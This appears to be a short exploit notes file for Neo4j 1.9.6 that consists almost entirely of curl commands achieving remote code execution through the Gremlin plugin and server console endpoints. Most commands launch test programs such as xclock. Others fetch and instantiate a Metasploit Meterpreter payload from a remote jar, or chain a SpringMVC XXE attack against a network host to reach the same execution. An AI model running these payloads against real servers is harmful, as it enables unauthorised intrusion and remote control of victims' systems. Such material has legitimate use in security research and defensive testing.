 Neo4J version 1.9.6

# Local Neo4J/Gremlin RCE exploits (macos)
curl -X POST http://localhost:7474/db/data/ext/GremlinPlugin/graphdb/execute_script -d '{"script":"rt = Runtime.getRuntime().exec(\"xclock\")", "params": {} }' -H "Content-Type: application/json"

curl -X POST http://localhost:7474/db/manage/server/console/ -d '{"command":"rt = Runtime.getRuntime().exec(\"xclock\");","engine":"gremlin"}' -H "Content-Type: application/json"

# Local Neo4J/Gremlin RCE exploits (linux)
curl -X POST http://localhost:7474/db/data/ext/GremlinPlugin/graphdb/execute_script -d '{"script":"import java.lang.Runtime;rt = Runtime.getRuntime().exec(\"xeyes\")", "params": {} }' -H "Content-Type: application/json"

curl -X POST http://localhost:7474/db/manage/server/console/ -d '{"command":"rt = Runtime.getRuntime().exec(\"xeyes\");","engine":"gremlin"}' -H "Content-Type: application/json"

# Local Neo4J/Gremlin Meterpreter exploits 
curl -X POST http://localhost:7474/db/manage/server/console/ -d '{"command":"URL url=new URL(\"http://localhost/~alvaro/met.jar\");def urlList = [] << url;URL[] urls = urlList.toArray();new URLClassLoader(urls).loadClass(\"metasploit.Payload\").newInstance()","engine":"gremlin"}' -H "Content-Type: application/json"

# Remote SpringMVC XXE + Neo4J/Gremlin RCE exploit (linux)
curl --header "content-type: application/xml" --header "Accept: application/xml" --data @xxe_neo4j_xclock.xml -X POST  "http://192.168.239.146:8080/contacts"

# Remote SpringMVC XXE + Neo4J/Gremlin Meterpreter exploit
curl --header "content-type: application/xml" --header "Accept: application/xml" --data @xxe_neo4j_meterpreter.xml -X POST  "http://192.168.239.146:8080/contacts"



